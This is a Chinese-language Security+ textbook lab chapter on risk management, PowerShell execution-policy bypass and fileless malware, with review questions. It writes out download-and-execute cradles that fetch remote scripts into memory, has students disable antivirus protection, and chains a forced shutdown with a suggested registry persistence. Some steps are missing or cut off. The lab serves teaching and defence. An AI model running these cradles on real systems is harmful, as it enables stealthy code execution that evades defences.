

## 第20章 风险管理

## 实验练习

- 20.01 PowerShell 脚本设置
- 20.02 PowerShell 漏洞利用

实验分析

关键术语测验

以下是美国国家标准与技术研究院（NIST）计算机安全资源中心（CSRC）术语表中关于风险的众多定义之一，见https://csrc.nist.gov/glossary/term/risk：

> 衡量一个实体受到潜在情况或事件威胁的程度，通常是以下两者的函数：（i）如果该情况或事件发生将产生的不利影响；以及
> （ii）发生的可能性。[注：与信息系统相关的安全风险是指因信息或信息系统的机密性、完整性或可用性丧失而产生的风险，并反映对组织运营（包括使命、职能、形象或声誉）、组织资产、个人、其他组织以及国家可能产生的不利影响。]

风险可以通过策略、流程以及软件/硬件控制来缓解。风险可以通过网络安全保险来转移。风险可以被接受，例如当保护的成本超过资产价值时，你就只能让该资产遭受破坏。风险可以通过移除资产来避免，但在大多数情况下，移除资产也会移除该资产可能带来的任何收益。然而，我们不能说风险可以被消除。

ISO 31000是一套被许多国家和大型组织采用的风险管理标准，其在第2.2节中将*风险管理*定义为“指导和控制组织与风险相关的协调活动”，见www.iso.org/obp/ui/#iso:std:iso:31000:ed-1:v1:en。

PowerShell可在多种平台（Windows、Linux和macOS）上运行，是一个用于任务自动化和配置管理的框架。它由命令行外壳及其自己的原生脚本语言组成。

PowerShell绝对在“既可做好事也可做坏事”的清单上。*无文件恶意软件*这个词每天都在被越来越多地使用，听到这个词时你脑海中首先浮现的……就是PowerShell。

PowerShell可以被告知下载恶意脚本或恶意软件。这些文件可以存储在硬盘上，然后由PowerShell启动。然而，情况甚至更糟。恶意脚本和恶意软件可以被PowerShell直接下载到内存（RAM）中，然后由PowerShell直接从内存运行。这意味着对于反恶意软件程序、取证调查员和恶意软件分析人员来说，硬盘上不会留下任何痕迹。这正是*无文件恶意软件*一词的确切含义。

这些攻击通常源于常见的攻击途径：钓鱼邮件、用户下载的恶意软件，或用户点击的恶意链接。PowerShell确实有执行策略，表面上似乎可以防止涉及脚本的攻击发生。然而，正如你将在本章看到的，不幸的是情况根本不是这样。因此，PowerShell对系统和网络构成了巨大的风险。

阅读以下网络安全厂商描述无文件恶意软件的文章。每篇文章都代表了各厂商独特的视角。

- https://www.mcafee.com/enterprise/en-us/security-awareness/ransomware/what-is-fileless-malware.html
- https://us.norton.com/internetsecurity-malware-what-is-fileless-malware.html


+   - https://www.trendmicro.com/vinfo/us/security/news/cybercrime-and-digital-threats/security-101-how-fileless-attacks-work-and-persist-in-systems
+   - https://www.cybereason.com/blog/fileless-malware
+   - https://www.varonis.com/blog/fileless-malware/
+   - https://awakesecurity.com/glossary/fileless-malware/

另外，关于无文件恶意软件，还可以看看这篇很棒的文章：

https://www.csoonline.com/article/3227046/what-is-a-fileless-attack-how-hackers-invade-systems-without-installing-software.html

30 分钟

# 实验练习 20.01：PowerShell 脚本设置

PowerShell 具有执行策略设置，表面上可以控制系统上可以运行哪些脚本（如果有的话）。不幸的是，在系统上设置脚本执行策略很容易，绕过系统的执行策略也同样容易。

# 学习目标

在本实验练习中，你将了解 PowerShell 支持的各种脚本执行策略，并开始绕过这些策略。完成本实验练习后，你将能够：

+   - 查看执行策略
+   - 设置执行策略
+   - 绕过执行策略

# 实验材料和准备

本实验所需的材料如下：

+   - *《计算机安全原理：CompTIA Security+ 与进阶》*教科书

策略。对于 Windows 服务器，默认执行策略是 **RemoteSigned**。

+   - **RemoteSigned**：所有从 Internet 下载的脚本和配置文件都必须由受信任的发布者签名。
+   - **Restricted**：不会加载任何配置文件，也不会运行任何脚本。
+   - **Undefined**：当前作用域没有设置任何执行策略。只要不是由组策略对象设置的，已分配的执行策略将从作用域中移除。如果所有作用域的执行策略都是 **Undefined**，则有效执行策略为 **Restricted**。
+   - **Unrestricted**：在 PowerShell 6.0 中，非 Windows 机器将此作为不可更改的默认执行策略。所有配置文件都会被加载，所有脚本都会被运行。对于从 Internet 下载的未签名脚本，会出现权限提示。

有关执行策略的更多信息，请参见以下链接：

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.1&viewFallbackFrom=powershell-7

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7


# 第 2 步 为了测试这一点，请创建一个 PowerShell 脚本。PowerShell 脚本具有 .ps1 扩展名。

```
notepad script1.ps1
```

在记事本窗口中，输入 **echo “Hello, World!”**，然后通过点击窗口右上角的 X 并点击“保存”按钮来保存并退出。



# 第 3 步 查看 GUI 和 CLI 中已有的保护机制

以防止意外运行脚本。然后，实际运行该脚本。

+   a. 使用 Windows 资源管理器 GUI，进入创建脚本的 C:\Windows\System32 目录，然后双击该脚本。为了防止用户意外执行脚本，.ps1 文件的默认文件类型关联是记事本。因此，点击脚本时，脚本只会在记事本中打开，而不会运行。无论执行策略如何，都是如此。由于默认文件类型关联很容易被更改，这并不代表能抵御攻击者，而只是防止用户意外点击。

+   b. 现在进行真正的测试。回到被称为 PowerShell 的 CLI 中，输入
.\script1.ps1
或直接
.\script1
你会看到一个错误消息，说明“此系统上已禁用运行脚本。”

在脚本名称之前有一个点和反斜杠，表示“在当前目录中”。为了防止命令劫持（攻击者将脚本放在文件夹中，并将脚本命名为与内置命令相同的名称），在非管理员 PowerShell 环境中，你被要求提供脚本的绝对或相对引用（可以带或不带 .ps1 扩展名运行）。对于实际命令，你永远不会这样做。当你以管理员身份打开 PowerShell 时，只需指定脚本名称（带或不带扩展名），而无需指定绝对或相对引用。

+   c. 使用以下命令将默认行为更改为不受限制：
Set-ExecutionPolicy Unrestricted
在警告提示符下按 A，然后按 ENTER，如图 20-1 所示。

那是一个“不”，但令人惊讶的是，试试这个：

```
powershell.exe -ExecutionPolicy Bypass script1.ps1
```

我们就这样轻松地绕过了 **Restricted** 设置，不是吗？

+   d. 你可以通过 https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1 找到更多关于如何运行 PowerShell.exe 的信息。

微软的官方建议是，对于运行脚本的计算机，使用 **RemoteSigned**。在所有其他机器上，微软建议使用 **Restricted** 设置。然而，许多备受尊敬的专业人士建议使用 **Unrestricted** 设置，因为如前所示，该设置毫无安全性可言。通过将执行策略设置为 **Unrestricted**，你是在实践“通过隐匿实现安全”，欺骗自己认为自己拥有了安全性，而实际上你根本没有安全性。想想看，一个 GPO 设置竟然可以用一条简单的命令来覆盖！再说一次，该设置只是为了防止用户意外运行脚本，而不是为了抵御攻击者。

30 分钟

# 实验练习 20.02：PowerShell 利用

在了解了 PowerShell 脚本执行策略的基本工作原理之后，是时候直接上手，看看如何将无文件恶意软件与 PowerShell 结合使用了。

# ➔ 交叉引用

在**第 22 章**中，你将攻击一台 Windows 10 机器，并直接访问其 PowerShell 界面。

# 学习目标

在本实验练习中，你将看到如何利用 PowerShell 部署无文件恶意软件。完成本实验练习后，你将能够：

+   - 执行绕过 PowerShell 脚本执行策略的命令
+   - 执行可将恶意软件下载到硬盘文件中的命令
+   - 执行可将恶意软件直接下载到内存并从内存中执行的命令

# 实验材料和准备

本实验所需的材料如下：

+   - *《计算机安全原理：CompTIA Security+ 与进阶》*教科书
+   - 一台可联网的 Web 浏览器
+   - 上一章中安装了 WampServer 的 Windows 10 虚拟机

# 开始吧！

为了让本实验练习正常工作，必须关闭实时保护。

按照以下步骤关闭 Windows 10 虚拟机上的实时保护：

+   1. 单击“开始”按钮或在搜索框中键入 **Security**（安全）。
+   2. 单击“Windows 安全中心”（Windows Security）。
+   3. 单击“病毒和威胁防护”（Virus & Threat Protection）。
+   4. 在“病毒和威胁防护设置”下，单击“管理设置”（Manage Settings）。
+   5. 在“实时保护”下，单击按钮将其关闭。
+   6. 在弹出窗口中单击“是”（Yes）。
+   7. 单击窗口右上角的 X 以关闭窗口。

你可能还需要禁用任何第三方反恶意软件。

将每条命令单独输入在一行中，并在每条命令后按 ENTER。

命令文本从标准输入读取。

以下关于 **Invoke-Expression** 的描述来自 https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7：

Invoke-Expression cmdlet 将指定字符串作为命令进行评估或运行，并返回表达式或命令的结果。如果没有 Invoke-Expression，在命令行提交的字符串将原样返回（回显）。

+   b. 在任意环境（cmd.exe、开始菜单、搜索框，甚至 PowerShell 本身）中执行以下命令：

```
powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "iex ((New-object Net.WebClient).DownloadString('https://www.flcc.edu'))"
```

该命令使用 **DownloadString** 函数将包含 www.flcc.edu 的 HTML、CSS 和 JavaScript 的字符串下载到内存中，然后尝试通过其别名 iex 使用 **Invoke-Expression** cmdlet 运行该字符串。结果并不顺利，PowerShell 的“鲜血”就是明证，但这为我们在下一步中的大结局做了很好的铺垫。

如果攻击者能够下载脚本或恶意软件到内存中运行（就像刚才 www.flcc.edu 的内容被发送到内存中那样，尽管执行失败了），那么防火墙等安全设备就可以被绕过。


# 第 4 步 在上一章中，你使用了 WampServer 的 MariaDB 数据库组件。现在你将使用 Apache Web 服务器组件。

+   a. 启动 WampServer。

+   b. 单击任务栏中的绿色 WampServer 图标。如果图标不是绿色，请像第 19 章中那样启动所有服务。

+   c. 从 WampServer 菜单中，单击“www directory”（www 目录）以打开相应文件夹。

+   d. 在文件夹窗口中，单击“File”（文件）菜单栏项，并确保


在“显示/隐藏”选项卡中，文件扩展名旁边的复选框中有一个勾选。

- e. 在 www 文件夹中右键单击空白区域，选择“新建”，选择“文本文档”，并将文件重命名为 **script2.ps1**。请确保去掉末尾的 .txt 扩展名，该扩展名默认情况下未高亮显示。单击“如果更改文件名的扩展名，文件可能无法使用。您确定要更改它吗？”对话框消息中的“是”按钮。

- f. 双击该文件以在记事本中打开它。仅在文件中输入 **Get-Service**，然后保存并退出记事本。

- g. 127.0.0.1 的回送地址（指 localhost，即当前机器）将在以下命令中用作可能的对手 IP 地址或完全限定域名（FQDN）的替代。**-NoExit** 开关在此处用于保持窗口打开，以便您可以检查输出并创建屏幕截图。否则，命令和输出完成后，窗口将自动关闭。然而，攻击者不会使用此特定开关，以便尽可能保持隐蔽。从“开始”菜单或搜索框中执行以下命令以及本步骤中的所有其他命令：

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -NoExit -Command "iex (New-Object Net.WebClient).DownloadString('http://127.0.0.1/script2.ps1')"
  ```

  输出显示系统上的服务列表。

- h. 在 www 目录中创建 script3.ps1，其中仅包含 **Get-Process**。运行此命令：

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -NoExit -Command "iex (New-Object Net.WebClient).DownloadString('http://127.0.0.1/script3.ps1')"
  ```

  输出显示系统上的进程列表。

与其下载到 RAM 并从 RAM 运行，脚本或恶意软件可以下载到硬盘并立即从那里运行。桌面已被选为本次及未来示例中下载脚本的目的地位置，以便于使用。在实际攻击中，攻击者会选择硬盘上更隐蔽的位置。

- i. 在 www 目录中名为 script4.ps1 的文件中仅放入单词 **date**，并运行以下命令，该命令使用 **DownloadFile** 函数而不是我们迄今为止一直使用的 **DownloadString** 函数：

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -NoExit (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/script4.ps1',
  'C:\Users\%USERNAME%\Desktop\script4.ps1'); iex
  'C:\Users\%USERNAME%\Desktop\script4.ps1'
  ```

- j. 现在将以下两行放入 script5.ps1 中：

  ```powershell
  Copy-Item "C:\Windows\System32\calc.exe" "C:\Users\$env:USERNAME\Desktop"
  & "C:\Windows\System32\calc.exe"
  ```

  **Copy-Item** cmdlet 将源位置复制到目标位置。在这种情况下，我们将计算器程序从 C:\Windows\System32 复制到当前用户的桌面。桌面位置是为便于使用而选择的。在实际攻击中，对手会选择硬盘上更隐蔽的位置。请注意，此前使用的 **%USERNAME%** 引用已更改为 PowerShell 格式，因为变量这次是在 PowerShell 脚本中使用。

  调用运算符 **&** 执行启动计算器的命令。

  运行以下命令，并想象 calc.exe 是一个随时可供攻击者启动的实际恶意软件样本！

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -NoExit (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/script5.ps1',
  'C:\Users\%USERNAME%\Desktop\script5.ps1'); iex
  'C:\Users\%USERNAME%\Desktop\script5.ps1'
  ```

- k. 将以下内容放入 script6.ps1 中：

  ```powershell
  & "C:\Program Files\Google\Chrome\Application\chrome.exe" www.rit.edu/directory/jswics-jonathan-weissman
  ```

  根据您安装 Chrome 的时间，chrome.exe 可能是

如果系统管理员阻止执行具有 .ps1 扩展名的文件怎么办？没问题！攻击者可以通过使用 **Get-Content** cmdlet 访问具有其他扩展名的文件的内容来绕过此限制（无法通过每种可能性进行过滤，这是不限数量的扩展名），然后将内容发送到 **Invoke-Expression** cmdlet 以执行。试试这个：

```powershell
powershell.exe -ExecutionPolicy Bypass -NoExit (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/script8.ps2',
'C:\Users\%USERNAME%\Desktop\script8.ps2'); Get-Content
'C:\Users\%USERNAME%\Desktop\script8.ps2' | iex
```

- n. 将以下内容放入 script9.ps1 中：

  ```powershell
  Stop-Computer -ComputerName 127.0.0.1
  ```

  在运行此命令之前，请保存需要保存的内容。此命令即将关闭您的机器。

然后攻击者可以添加一个注册表项，每次系统启动时调用此文件，这将立即使其...关闭！现在运行以下命令：

```powershell
powershell.exe -ExecutionPolicy Bypass -NoExit (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/script9.ps1',
'C:\Users\%USERNAME%\Desktop\script9.ps1'); iex
'C:\Users\%USERNAME%\Desktop\script9.ps1'
```

我们如何缓解 PowerShell 通过无文件方式带来的巨大风险？

确保对系统和网络进行实时监控。确保日志和警报已到位。确保及时应用更新和安全补丁。确保应用最小权限原则，用户和程序仅拥有完成工作所需的权限，不多也不少。确保提供用户教育和培训，以便员工知道他们应该做什么和不应该做什么。

无文件恶意软件攻击更重视隐蔽性而非持久性，尽管攻击的灵活性使其可以与其他恶意软件配对，从而同时具备两者。Ponemon Institute 的调查发现，这些基于内存的攻击比基于文件的恶意软件更有可能成功 10 倍。

组织应制定策略，包括端点安全解决方案和员工培训，以对抗这些威胁。

### 实验分析

- 1. 什么是无文件恶意软件？
- 2. 为什么 PowerShell 用于涉及无文件恶意软件的攻击？
- 3. 与 PowerShell 和无文件恶意软件相关的一些风险管理策略是什么？

### 关键术语测验

使用列表中的术语完成以下句子。

- DownloadString
- execution policy
- fileless malware
- PowerShell
- Restricted
- risk
- risk management
- scripts
- Unrestricted

- 1. 负责将脚本放入 RAM 的函数是 ______________。
- 2. ______________ 的默认 ______________ 为 ______________。
- 3. 用户教育和培训可以帮助降低 ______________ 攻击的 ______________，并且是 ______________ 的重要组成部分。
- 4. 本章已证明，脚本的 ______________ 设置比默认值更现实，并且不会产生虚假的安全感。
